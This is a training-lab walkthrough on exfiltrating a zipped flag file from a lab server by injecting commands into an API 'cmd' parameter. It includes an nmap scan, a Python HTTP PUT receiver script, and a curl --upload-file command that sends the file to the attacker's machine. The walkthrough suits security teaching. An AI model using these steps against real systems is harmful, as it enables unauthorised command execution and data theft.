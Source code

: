 ```yaml
---
description: >-
  In this lab you will learn how one can use a simple HTTP server written in
  Python for exfiltrating data from a restricted environment.
---
```


# Lab - Data Exfiltration



## Lab Environment

You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a low privilege user i.e. student. A sensitive flag file is kept in a zipped archive file in the student user's home directory.

Also, there is a monitor process running on the server machine that blocks most protocols except HTTP protocol (when using port 80).

**Objective:** Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

**Instructions**

* Once you start the lab, you will have access to the Kali GUI instance
* The API endpoint is accessible at `demo.ine.local` domain!

![](https://assets.ine.com/content/pta-labs/3\_data\_exfiltration/0.png)

## Tools

The tools used in this lab are:

* Nmap
* A web browser
* Python Scripting
* curl

## Solution

Run an nmap scan on demo.ine.local to find out open ports

```
nmap demo.ine.local
```

![](<../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

We can see that port 8000 is open

Going to **demo.ine.local** shows us the following

![](<../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png>)

From the "cmd parameter required" response, we know this means we need to pass parameter names cmd with the URL

For example `pwd` or `ls` or `whoami`

```
demo.ine.local:8000?cmd=pwd
```

![](<../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png>)

Here we see the present working directory located on the web-server

Let's see the contents of that directory

```
demo.ine.local:8000?cmd=ls -l
```

![](<../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png>)

We see an interesting file flag.zip. However, in order to retrieve the flag, we need to transfer/exfiltrate this file to our Kali machine

One of the tools mentioned in the beginning was cURL. Let's check if curl is on the remote machine

```
demo.ine.local:8000?cmd=curl -h
```

![](<../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Now that we know the remote machine has curl, let's check what our IP is.

```
ifconfig
```

![](<../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png>)

In order to exfiltrate the flag.zip file, we need to run a HTTP server on our kali machine that can accept and save the file when it is sent over HTTP

This code will help us:

```python
#!/usr/bin/python

import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

Next I saved the file as **server.py** and ran it.

```
python server.py 80
```

Now we'll upload the zip file to our HTTP server running on Kali using curl

```
demo.ine.local:8000?cmd=curl+192.147.164.2+--upload-file+flag.zip
```

![](<../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png>)

Here we can see that our server received the file&#x20;

If we list the contents of our current working directory we'll see the file

![](<../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Lastly, unzip the file and retrieve the flag.

```
unzip flag.zip
```

```
cat flag/flag.txt
```

![](<../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png>)
